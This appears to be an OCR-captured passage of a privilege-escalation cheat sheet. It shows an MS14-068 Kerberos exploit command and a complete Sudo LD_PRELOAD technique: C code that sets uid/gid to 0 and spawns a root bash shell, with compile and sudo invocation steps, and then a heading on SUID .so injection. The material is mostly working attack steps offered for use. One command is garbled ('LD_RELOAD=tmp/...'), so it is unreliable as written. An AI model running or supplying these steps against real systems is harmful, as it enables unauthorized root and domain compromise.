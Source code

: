 Type: 0/1 Exploit

Methods:

1\.

python ms14-068.py -u user-a-1\@dom-a.loc -s
S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc

<a name="sudo-ld_preload"></a>
# Sudo LD_PRELOAD

Domain: No

Local Admin: Yes

OS: Linux

Type: Injection

Methods:

\#include \<stdio.h\>

\#include \<sys/types.h\>

\#include \<stdlib.h\>

1\. void \_init() {

unsetenv(\"LD_PRELOAD\");

setgid(0);

setuid(0);

system(\"/bin/bash\");

}

2\.

gcc -fPIC -shared -o /tmp/ldreload.so ldreload.c -nostartfiles

3\.

sudo LD_RELOAD=tmp/ldreload.so apache2

4\.

id

<a name="abusing-file-permission-via-suid-binaries-so-injection"></a>
# Abusing File Permission via SUID Binaries - .so injection) 

Domain: No

Local Admin: Yes
